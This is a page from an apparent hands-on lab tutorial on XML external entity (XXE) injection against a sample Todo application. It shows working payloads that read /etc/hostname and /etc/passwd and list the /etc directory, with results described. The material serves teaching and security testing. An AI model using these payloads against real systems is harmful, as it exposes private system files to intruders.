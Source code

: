 ```yaml
---
title: "Reading Local Content"
weight: 3
---
```


Now that we have verified interpolation of internally defined general entities. Lets see if we can define a general entity to the contents of a local file and then use that as the value of the `description` tag. Lets try reading the hostname at `/etc/hostname`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE todo [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>

<todo>
  <description>&xxe;</description>
  <category>XXE</category>
</todo>
```

Cool. It looks like that worked. We now have a Todo entry with the description of `ubuntu-bionic`.

![Host Name Todo](/static/img/host_name_todo.png)

We have verified that we can do entity interpolation. Earlier we also verified that a XML document that is unable to be read by the application is reflected back to us. Lets use these two concepts to show the contents of a local file `/etc/passwd`. We are going to send a properly formed XML that does not include the `description` or `category` tags and include an entity that reads the contents of a local file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<todo>&xxe;</todo>
```

The response we receive contains the file:

![Basic XXE Result](/static/img/basic_xxe_result.png)

Using this process you can now view any file on the system that you have access to. Now if only there was a way to list the contents of a directory...

## Listing Contents of Directory

If the app is Java you have the ability to directly list the contents of a directory. To do that we will create a general entity and set it to the path of a directory. Try submitting this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/">]>

<todo>&xxe;</todo>
```

![](/static/img/etc_directory.png)
